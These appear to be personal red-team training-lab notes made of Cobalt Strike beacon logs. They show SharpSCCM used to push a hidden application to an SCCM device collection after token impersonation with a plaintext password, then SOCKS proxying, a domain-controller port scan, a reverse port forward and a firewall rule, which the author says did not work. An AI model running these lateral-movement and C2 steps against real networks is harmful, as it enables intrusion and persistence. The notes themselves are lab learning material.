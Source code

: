 With Full or Application Administrator privileges over a device or a collection, we can deploy scripts or applications to aid in lateral movement.  To execute a command on every device in the DEV collection, we could do `exec -n DEV -p <path>`.

in order to be able to execute in the `DEV` group you must have a user that is in that group, in this case we must `impersonate` `DEV\jking`
`make_token DEV\jking Qwerty1234`
```powershell
beacon> make_token DEV\jking Qwerty123
[*] Tasked beacon to create a token for DEV\jking
[+] host called home, sent: 37 bytes
[+] Impersonated DEV\jking (netonly)
```
took a while to complete `[+] Completed execution in 00:02:08.8028395`
```powershell
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe exec -n DEV -p C:\Windows\notepad.exe --no-banner
[*] Tasked beacon to run .NET program: SharpSCCM.exe exec -n DEV -p C:\Windows\notepad.exe --no-banner
[+] host called home, sent: 1233246 bytes
[+] received output:

[+] Querying the local WMI repository for the current management point and site code
[+] Connecting to \\127.0.0.1\root\CCM
[+] Current management point: scm-1.cyberbotic.io
[+] Site code: S01
[+] Connecting to \\scm-1.cyberbotic.io\root\SMS\site_S01

[+] received output:
[+] Creating new application: Application_8d5eaab7-df9c-4756-8bee-a7104a4a03ab
[+] Application path: C:\Windows\notepad.exe
[+] Updated application to hide it from the Configuration Manager console
[+] Updated application to run in the context of the logged on user

[+] received output:
[+] Successfully created application

[+] received output:
[+] Creating new deployment of Application_8d5eaab7-df9c-4756-8bee-a7104a4a03ab to DEV (S0100014)

[+] received output:
[+] Found the Application_8d5eaab7-df9c-4756-8bee-a7104a4a03ab application

[+] received output:
[+] Successfully created deployment of Application_8d5eaab7-df9c-4756-8bee-a7104a4a03ab to DEV (S0100014)
[+] New deployment name: Application_8d5eaab7-df9c-4756-8bee-a7104a4a03ab_S0100014_Install
[+] Waiting for new deployment to become available...

[+] received output:
[+] New deployment is available, waiting 30 seconds for updated policy to become available

[+] received output:
[+] Forcing all members of DEV (S0100014) to retrieve machine policy and execute any new applications available

[+] received output:
[+] Waiting 1 minute for execution to complete...

[+] received output:
[+] Cleaning up

[+] received output:
[+] Found the Application_8d5eaab7-df9c-4756-8bee-a7104a4a03ab_S0100014_Install deployment

[+] received output:
[+] Deleted the Application_8d5eaab7-df9c-4756-8bee-a7104a4a03ab_S0100014_Install deployment
[+] Querying for deployments of Application_8d5eaab7-df9c-4756-8bee-a7104a4a03ab_S0100014_Install
[+] No remaining deployments named Application_8d5eaab7-df9c-4756-8bee-a7104a4a03ab_S0100014_Install were found

[+] received output:
[+] Found the Application_8d5eaab7-df9c-4756-8bee-a7104a4a03ab application

[+] received output:
[+] Deleted the Application_8d5eaab7-df9c-4756-8bee-a7104a4a03ab application
[+] Querying for applications named Application_8d5eaab7-df9c-4756-8bee-a7104a4a03ab

[+] received output:
[+] No remaining applications named Application_8d5eaab7-df9c-4756-8bee-a7104a4a03ab were found
[+] Completed execution in 00:02:08.8028395
```
SharpSCCM attempts to hide the application (i.e. the command we're executing) from the GUI, but the deployment is still visible until it completes.
![[Pasted image 20231218174759.png]]


# need to figure out my proxy/rportfwds from attacker dekstop -> wkstn-2 -> dc-2 to have my dns beacon back through
this didnt work.
the dns beacon is working because i got a beacon on my own attack dekstop.
```powershell
[12/18 22:57:14] beacon> socks 1080 SOCKS5 enableNoAuth "" "" disableLogging
[12/18 22:57:14] [+] started SOCKS5 server on: 1080
[12/18 22:58:06] beacon> portscan 10.10.122.10
[12/18 22:58:07] [*] Tasked beacon to scan ports 1-1024,3389,5900-6000 on 10.10.122.10
[12/18 22:58:07] [+] host called home, sent: 95030 bytes
[12/18 22:58:08] [+] received output:
(ICMP) Target '10.10.122.10' is alive. [read 8 bytes]

[12/18 22:58:09] [+] received output:
10.10.122.10:5985

[12/18 22:58:11] [+] received output:
10.10.122.10:3389

[12/18 22:58:17] [+] received output:
10.10.122.10:636

[12/18 22:58:18] [+] received output:
10.10.122.10:593

[12/18 22:58:20] [+] received output:
10.10.122.10:464
10.10.122.10:443

[12/18 22:58:21] [+] received output:
10.10.122.10:389

[12/18 22:58:25] [+] received output:
10.10.122.10:139

[12/18 22:58:26] [+] received output:
10.10.122.10:135

[12/18 22:58:30] [+] received output:
10.10.122.10:88
10.10.122.10:53

[12/18 22:58:41] [+] received output:
10.10.122.10:445 (platform: 500 version: 10.0 name: DC-2 domain: DEV)
Scanner module is complete

[12/18 23:02:29] beacon> rportfwd 53 127.0.0.1 53
[12/18 23:02:29] [+] started reverse port forward on 53 to 127.0.0.1:53
[12/18 23:02:29] [*] Tasked beacon to forward port 53 to 127.0.0.1:53
[12/18 23:02:29] [+] host called home, sent: 10 bytes
[12/18 23:02:51] beacon> powershell New-NetFirewallRule -DisplayName "53-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 53
[12/18 23:02:51] [*] Tasked beacon to run: New-NetFirewallRule -DisplayName "53-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 53
[12/18 23:02:51] [+] host called home, sent: 335 bytes
[12/18 23:02:57] [+] received output:
#< CLIXML


Name                          : {e650855f-2089-4135-b7aa-c3a33e131a25}
DisplayName                   : 53-In
Description                   : 
DisplayGroup                  : 
Group                         : 
Enabled                       : True
Profile                       : Any
Platform                      : {}
Direction                     : Inbound
Action                        : Allow
EdgeTraversalPolicy           : Block
LooseSourceMapping            : False
LocalOnlyMapping              : False
Owner                         : 
PrimaryStatus                 : OK
Status                        : The rule was parsed successfully from the store. (65536)
EnforcementStatus             : NotApplicable
PolicyStoreSource             : PersistentStore
PolicyStoreSourceType         : Local
RemoteDynamicKeywordAddresses : 


```

This doesn't work for me, i've noticed that it is probably due to something being wrong with my DNS beacons, im not completely sure. Going to have to come back to all the `broken` sections